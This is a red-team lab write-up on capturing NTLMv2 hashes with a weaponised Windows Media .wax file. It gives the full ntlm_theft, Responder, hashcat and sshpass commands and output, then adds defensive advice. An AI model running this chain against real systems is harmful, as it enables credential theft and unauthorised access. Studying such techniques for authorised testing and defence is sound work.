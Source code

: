 ```yaml
---
title: "NTLM Hash Capture via Legacy WAX File Bypass"
date: 2025-09-26 18:30:00 +0200
categories: [Red-teaming]
tags: [Red Teaming, NTLMv2, Responder, Hashcat, WAX, Credential Theft, Lateral Movement]
toc: true
pin: false
---
```


# NTLM Hash Capture via Legacy WAX File - Lab Demonstration

This lab scenario explores the capture of NTLMv2 hashes using a legacy WAX file combined with Responder for hash poisoning. The technique demonstrates a POC (proof of concept) 
approach that, while effective in controlled environments, may have varying real world applicability depending on target configurations and security controls. There was a option
to upload a Windows Media Player file through the Web GUI. This method could potentially be useful in red teaming engagements where legacy systems are present. 

## Attack Flow

### 1. Weaponized File Creation
The `ntlm_theft.py` tool generates multiple attack vectors including the `redteam.wax` file:

```bash
python3 ntlm_theft.py -g all -s 10.10.10.10 -f redteam
/home/kali/ntlm_theft/ntlm_theft.py:168: SyntaxWarning: invalid escape sequence '\l'
  location.href = 'ms-word:ofe|u|\\''' + server + '''\leak\leak.docx';
Created: redteam/redteam.scf (BROWSE TO FOLDER)
Created: redteam/redteam-(url).url (BROWSE TO FOLDER)
Created: redteam/redteam-(icon).url (BROWSE TO FOLDER)
Created: redteam/redteam.lnk (BROWSE TO FOLDER)
Created: redteam/redteam.rtf (OPEN)
Created: redteam/redteam-(stylesheet).xml (OPEN)
Created: redteam/redteam-(fulldocx).xml (OPEN)
Created: redteam/redteam.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: redteam/redteam-(handler).htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: redteam/redteam-(includepicture).docx (OPEN)
Created: redteam/redteam-(remotetemplate).docx (OPEN)
Created: redteam/redteam-(frameset).docx (OPEN)
Created: redteam/redteam-(externalcell).xlsx (OPEN)
Created: redteam/redteam.wax (OPEN)
Created: redteam/redteam.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: redteam/redteam.asx (OPEN)
Created: redteam/redteam.jnlp (OPEN)
Created: redteam/redteam.application (DOWNLOAD AND OPEN)
Created: redteam/redteam.pdf (OPEN AND ALLOW)
Created: redteam/zoom-attack-instructions.txt (PASTE TO CHAT)
Created: redteam/redteam.library-ms (BROWSE TO FOLDER)
Created: redteam/Autorun.inf (BROWSE TO FOLDER)
Created: redteam/desktop.ini (BROWSE TO FOLDER)
Created: redteam/redteam.theme (THEME TO INSTALL
Generation Complete.
```

### 2. NTLM Hijacking via .WAX

The [Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft){:target="_blank"} repository was used as a reference for generating test files in a controlled lab environment.  

### 3. Responder setup

```bash

Responder is initiated on the tun0 interface to capture authentication attempts:

responder -I tun0  
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [OFF]
    IMAP server                [OFF]
    POP3 server                [OFF]
    SMTP server                [OFF]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [OFF]
    RDP server                 [OFF]
    DCE-RPC server             [OFF]
    WinRM server               [OFF]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.10.10]
    Responder IPv6             [dead:beef:2::10cd]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']
    Don't Respond To MDNS TLD  ['_DOSVC']
    TTL for poisoned response  [default]

[+] Current Session Variables:
    Responder Machine Name     [WIN-VVA6SP3PVXI]
    Responder Domain Name      [OUZ4.LOCAL]
    Responder DCE-RPC Port     [48236]

[*] Version: Responder 3.1.7.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>
[*] To sponsor Responder: https://paypal.me/PythonResponder

[+] Listening for events...

[SMB] NTLMv2-SSP Client   : 10.1.1.1
[SMB] NTLMv2-SSP Username : MEDIA\enox
[SMB] NTLMv2-SSP Hash     : SNIP
[*] Skipping previously captured hash for MEDIA\enox
[*] Skipping previously captured hash for MEDIA\enox
[+] Exiting...

```

### 4. Hash capture

The `redteam.wax` file was uploaded via the web GUI and, when processed/previewed by the target, the authentication listener recorded an NTLMv2 authentication exchange.

```bash

Target interaction with the WAX file results in NTLMv2 hash capture:

SMB] NTLMv2-SSP Client   : 10.10.10.1
<SNIPPED GOT THE HASH>

Then saved the captured hash as enox.hash and cracked it by using hashcat.

hashcat enox.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt 


```

### 5.  Logged in using sshpass
```bash
sshpass -p 'THECRACKEDPASSWORD' ssh enox@10.10.10.10

```


### 6. Conclusion
```bash
This lab showed that a legacy file format such as .WAX can be turned into a practical test of modern defenses. In a controlled environment the WAX file repeatedly caused an endpoint to
initiate an outbound NTLMv2 authentication exchange that revealed authentication metadata. That behavior highlights how older handlers and automatic retrieval mechanisms remain an underrated attack surface.

For red teams this provides a quiet but effective tool for social engineering and client side testing. A small user action, such as previewing or opening a media file,
can trigger protocol level behavior with real consequences. Use of this approach must be strictly authorised, carefully scoped, and fully documented to avoid real world harm.

For defenders the message is simple. Limit legacy protocol egress, harden client policies to reduce automatic retrieval of remote content, and
tune detection to link file open or preview events with outbound NTLM activity. Those steps will greatly reduce the odds that a routine media file becomes a pathway for credential exposure.

Ultimately legacy formats still matter. They can produce high impact, low visibility checks of network segmentation, endpoint configuration,
and detection maturity when used responsibly and with appropriate safeguards.
```


